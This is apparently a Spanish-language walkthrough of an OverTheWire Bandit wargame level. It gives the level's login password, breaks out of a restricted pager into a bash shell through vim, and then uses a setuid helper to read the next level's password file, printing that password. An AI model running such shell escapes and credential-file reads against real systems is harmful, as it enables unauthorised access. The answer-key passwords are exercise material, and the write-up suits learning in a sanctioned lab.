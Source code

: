 # Bandit

## Objetivo
¡Buen trabajo consiguiendo una concha! ¡Ahora date prisa y obtén la contraseña para bandit27!
## Datos de acceso
Usuario: bandit26
Password: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
## Solucion
```shell
Connection to bandit.labs.overthewire.org closed.

v

:set shell=/bin/bash

:shell

bandit26@bandit:~$ ls -la
total 44
drwxr-xr-x  3 root     root      4096 Sep  1 06:30 .
drwxr-xr-x 49 root     root      4096 Sep  1 06:30 ..
-rwsr-x---  1 bandit27 bandit26 14872 Sep  1 06:30 bandit27-do
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
drwxr-xr-x  2 root     root      4096 Sep  1 06:30 .ssh
-rw-r-----  1 bandit26 bandit26   258 Sep  1 06:30 text.txt
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27

YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```
## Notas adicionales
Recordemos que hay servidores que ya no nos permiten entrar desde el inicio asi que debemos buscar la forma para bugear los mensajes de entrada para obtener los datos desde ahi y sacar el password del siguiente reto.
## Referencias

